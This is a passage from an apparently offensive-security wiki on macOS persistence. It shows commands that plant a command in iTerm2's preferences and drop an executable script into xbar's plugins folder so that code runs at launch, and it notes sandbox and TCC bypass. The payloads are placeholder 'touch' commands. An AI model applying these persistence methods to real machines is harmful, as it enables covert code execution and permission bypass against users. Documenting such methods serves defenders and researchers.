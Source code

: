 You can set the command to execute with:

{% code overflow="wrap" %}
```bash
# Add
/usr/libexec/PlistBuddy -c "Set :\"New Bookmarks\":0:\"Initial Text\" 'touch /tmp/iterm-start-command'" $HOME/Library/Preferences/com.googlecode.iterm2.plist

# Call iTerm
open /Applications/iTerm.app/Contents/MacOS/iTerm2

# Remove
/usr/libexec/PlistBuddy -c "Set :\"New Bookmarks\":0:\"Initial Text\" ''" $HOME/Library/Preferences/com.googlecode.iterm2.plist
```
{% endcode %}

{% hint style="warning" %}
Highly probable there are **other ways to abuse the iTerm2 preferences** to execute arbitrary commands.
{% endhint %}

### xbar

Writeup: [https://theevilbit.github.io/beyond/beyond\_0007/](https://theevilbit.github.io/beyond/beyond\_0007/)

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)
  * But xbar must be installed
* TCC bypass: [✅](https://emojipedia.org/check-mark-button)
  * It requests Accessibility permissions

#### Location

* **`~/Library/Application\ Support/xbar/plugins/`**
  * **Trigger**: Once xbar is executed

#### Description

If the popular program [**xbar**](https://github.com/matryer/xbar) is installed, it's possible to write a shell script in **`~/Library/Application\ Support/xbar/plugins/`** which will be executed when xbar is started:

```bash
cat > "$HOME/Library/Application Support/xbar/plugins/a.sh" << EOF
#!/bin/bash
touch /tmp/xbar
EOF
chmod +x "$HOME/Library/Application Support/xbar/plugins/a.sh"
```

### Hammerspoon

**Writeup**: [https://theevilbit.github.io/beyond/beyond\_0008/](https://theevilbit.github.io/beyond/beyond\_0008/)

